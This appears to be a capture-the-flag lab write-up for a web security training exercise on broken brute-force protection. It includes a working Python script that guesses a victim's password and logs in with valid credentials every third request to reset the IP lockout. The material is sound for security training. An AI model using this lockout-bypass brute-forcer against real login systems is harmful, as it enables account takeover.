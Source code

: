 # Lab: Broken brute-force protection, IP block

Topic : **Broken brute-force protection, IP block**

Auth : Bypassing brute force protection ( self login at intervals to bypass brute force)

End Goal : Logging in the account

Analysis : 

1. Given → 
    - Your credentials: `wiener:peter`
    - Victim's username: `carlos`
2. I examined the request from Burp Suite. It gives a block for 1 minute after trying for around 3 tries (did not find the exact number of tries) . It resets when i log in with correct credentials.
3. So, my main task now, is to create a script which will  brute force the passwords for our **user** but after every 2 tries, we will log in with correct credentials to reset the block.
4. Script :
    
    ```python
    #!/usr/bin/env python3
    
    import requests
    import sys
    
    # extract list
    def createList(filename):
        with open(filename, "r") as f:
            return [line.strip() for line in f]
    
    def passwordBruteforce(URL, passwords):
    
        counter = 0
        i = 1 # feedback
        j = 0
    
        while j < len(passwords):
    
            print(i)
            i += 1
    
            if counter == 2:
                data = {
                    "username":"wiener",
                    "password":"peter"
                }
                counter = -1 # resetting the counter (not 0 because it increments in this case too)
                j -= 1 # so that the current password is checked too
            else:
                data = {
                    "username":"carlos",
                    "password": passwords[j]
                }
    
            counter += 1
    
            proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"} # to run the requests through Burp Suite (better supervision)
    
            r = requests.post(URL, data=data, proxies=proxies, verify=False)
            print("-" * 50)
            print("data: ", data)
            print("-" * 50)
    
            if ("Incorrect password" not in r.text) and data.get("username") == "carlos":
                print(f"Found Credentials: User: carlos, Password: {passwords[j]}")
                return
    
            j += 1
    
    def main():
    
        if len(sys.argv) < 2 :
            print("1 arguments REQUIRED -> <password_file>")
            sys.exit(0)
    
        pass_file = sys.argv[1]
    
        URL = "https://0a7f000503293dcc80c41cdf009400b0.web-security-academy.net/login"
    
        passwords = createList(pass_file)
    
        # Victim username -> carlos
        passwordBruteforce(URL, passwords)
        
    
    if __name__ == "__main__":
        main()
    
    ```
    
5. Script Summary
    
    This script runs as an executable and takes one argument which is the password list to be brute forced. This send **POST** request to the url and gives correct credentials every 3rd time to bypass the brute force.
    
6. This script gives the found credentials and you solve the lab
